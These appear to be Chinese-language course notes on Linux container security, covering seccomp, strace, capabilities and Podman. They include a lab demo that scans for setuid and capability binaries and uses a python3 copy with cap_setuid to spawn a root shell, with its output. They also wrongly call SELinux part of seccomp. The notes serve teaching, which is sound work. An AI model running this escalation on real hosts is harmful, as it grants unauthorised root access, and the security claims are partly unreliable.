 
# 2021/08/14(六)

## 技術

- Podman (Rootless Container)
    - 可使用 一般使用者, 便可用來操作 Container
- ps 監控程式使用範例:
    - `ps -eo user,pid,cmd,%mem,%cpu | head -n 4`
- 講師強調: Container 裡面, 不要有 seduid 的功能
    - 從根目錄開始掃, 列出所有 seduid 的檔案
        ```bash
        $# sudo find / -user root -perm -4000 2>/dev/null | grep -E '^/bin|^/usr/bin'
        /usr/bin/passwd
        /usr/bin/gpasswd
        /usr/bin/umount
        /usr/bin/newgrp
        /usr/bin/sudo
        /usr/bin/chsh
        /usr/bin/mount
        /usr/bin/fusermount
        /usr/bin/chfn
        /usr/bin/su
        /usr/bin/pkexec
        ```
- seccomp : Security Computing Mode
    > Seccomp is a useful feature provided by the Linux kernel since 2.6.12 and is used to control the syscalls made by a process. Seccomp has been implemented by numerous projects such as Docker, Android, OpenSSH and Firefox to name a few.
    - 用來防範 `user process` 以及 `System Library` 不正常呼叫 syscall
        - CentOS7 的 SELinux 只是 `seccomp` 的一部分
    ```bash
    ###  可用來查看 Linux 有無啟用 seccomp
    $# cat /boot/config-$(uname -r) | grep CONFIG_SECCOMP
    CONFIG_SECCOMP=y
    CONFIG_SECCOMP_FILTER=y
    ```
- 課堂上使用 golang 做很多程式範例的 Demo, 為了讓 Golang 能使用到 seccomp, 所以需要安裝依賴:
    - `sudo apt install libseccomp-dev golang-github-seccomp-libseccomp-golang-dev`
- 用來追蹤程序呼叫了那些 syscall, 可使用 `strace`
    ```bash
    $# strace -qcf mkdir /tmp/x
    % time     seconds  usecs/call     calls    errors syscall
    ------ ----------- ----------- --------- --------- ----------------
    26.73     0.000449          16        27           mmap
    9.76      0.000164         164         1           execve
    9.05      0.000152          19         8           openat
    8.57      0.000144          16         9           mprotect
    7.86      0.000132          13        10           close
    7.20      0.000121          15         8           fstat
    7.08      0.000119          14         8           pread64
    6.49      0.000109          15         7           read
    2.74      0.000046          46         1           mkdir
    2.68      0.000045          15         3           brk
    2.38      0.000040          20         2         2 access
    2.08      0.000035          17         2         2 statfs
    1.85      0.000031          15         2         1 arch_prctl
    1.49      0.000025          12         2           rt_sigaction
    1.13      0.000019          19         1           munmap
    0.77      0.000013          13         1           prlimit64
    0.71      0.000012          12         1           rt_sigprocmask
    0.71      0.000012          12         1           set_tid_address
    0.71      0.000012          12         1           set_robust_list
    ------ ----------- ----------- --------- --------- ----------------
    100.00    0.001680                    95         5 total
    ```
- 可使用 `setcap` 來授予 程式, 具備 OOO 權限
    - 讓 python3 運行 process 的時候, 可具備 cap_setuid+ep 權限, ex:
        - `sudo setcap  cap_setuid+ep  /home/rbean/python3`
- 實作 「逃脫」
    - 讓程式具有 suid 功能的話, 駭入系統取得 root 權限的範例
    ```bash
    ### 查看系統具備 setuid 的程式有哪些(慎用!)
    $ getcap -r / 2>/dev/null
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/bin/ping = cap_net_raw+ep
    /usr/bin/traceroute6.iputils = cap_net_raw+ep
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
    /home/rbean/python3 = cap_setuid+ep
    # ↑ 掃描系統上 「/」, 具備 setuid 權限的程式

    ### 
    user@~$ ./python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
    root@us:~# whoami
    root
    # 一般使用者, 晉升成為 root @@!
    ```

    ```bash
    ### 
    $# getcap -r / 2>/dev/null
    /var/lib/docker/overlay2/585e44f91b78f8b88ab8399e0166076abb07903592118487552ba714a2d4d010/diff/usr/bin/newuidmap = cap_setuid+ep
    /var/lib/docker/overlay2/585e44f91b78f8b88ab8399e0166076abb07903592118487552ba714a2d4d010/diff/usr/bin/ping = cap_net_admin,cap_net_raw+p
    /var/lib/docker/overlay2/585e44f91b78f8b88ab8399e0166076abb07903592118487552ba714a2d4d010/diff/usr/sbin/arping = cap_net_raw+p
    /var/lib/docker/overlay2/585e44f91b78f8b88ab8399e0166076abb07903592118487552ba714a2d4d010/diff/usr/sbin/clockdiff = cap_net_raw+p
    /usr/bin/newgidmap = cap_setgid+ep
    /usr/bin/newuidmap = cap_setuid+ep
    /usr/bin/ping = cap_net_admin,cap_net_raw+p
    /usr/sbin/clockdiff = cap_net_raw+p
    /usr/sbin/arping = cap_net_raw+p
    # 以上的程序, 都具備 setuid 的權限! 必須要慎重看待!!

    $# sudo useradd -m -s /bin/bash danger_user
    $# echo "danger_user:danger_user" | sudo chpasswd

    設定 danger_user 家目錄中的 python3 命令檔, 具有 Capabilities setuid 權限, 代表 python3 所執行的 程式可設定 setuid 功能
    $# sudo cp /usr/bin/python3  /home/danger_user 

    $# sudo setcap  cap_setuid+ep  /home/danger_user/python3

    $# ls -al  /home/danger_user/python3
    -rwxr-xr-x 1 root root 5490352 Jul 21 14:15 /home/danger_user/python3

    ### 登入 danger_user
    $ setcap cap_setuid+ep /home/rbean/python3
    $ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
    root# 
    # 取得 root bash
    ```
- Container 是種技術架構, Docker 只是其中一家實作的廠商
    - podman
    - containerd
    - cri-o
- Linux 對於 Kernel 的防護措施:
    - seccomp
    - control group
    - linux capability
    - app armor
    - selinux

```bash
sudo mount -t overlay overlay \
    -o lowerdir=/home/bigred/ov2/lower, \
        upperdir=/home/bigred/ov2/upper, \
        workdir=/home/bigred/ov2/work  \
    /home/bigred/ov2/merged
```
